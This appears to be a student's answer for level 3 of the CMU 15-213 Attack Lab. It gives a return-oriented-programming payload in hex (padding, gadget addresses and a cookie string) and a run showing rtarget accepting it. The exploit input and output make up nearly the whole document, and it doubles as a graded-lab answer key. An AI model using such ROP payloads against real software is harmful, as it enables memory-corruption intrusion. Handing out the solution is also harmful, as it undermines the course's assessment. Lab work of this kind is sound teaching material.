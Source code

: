 

### Answer

#### sol5.hex

```json
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
84 1a 40 00 00 00 00 00
20 00 00 00 00 00 00 00
a3 1a 40 00 00 00 00 00
9d 1a 40 00 00 00 00 00
ec 1a 40 00 00 00 00 00
fa 1a 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
8f 1a 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
b6 19 40 00 00 00 00 00
37 38 39 36 30 31 37 33
00                     
```

#### Result

```R
$ cat sol5.hex | ./hex2raw | ./rtarget -q
Cookie: 0x78960173
Type string:Touch3!: You called touch3("78960173")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	84
	course	15213-f15
	lab	attacklab
	result	84:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 84 1A 40 00 00 00 00 00 20 00 00 00 00 00 00 00 A3 1A 40 00 00 00 00 00 9D 1A 40 00 00 00 00 00 EC 1A 40 00 00 00 00 00 FA 1A 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 8F 1A 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 B6 19 40 00 00 00 00 00 37 38 39 36 30 31 37 33 00 
```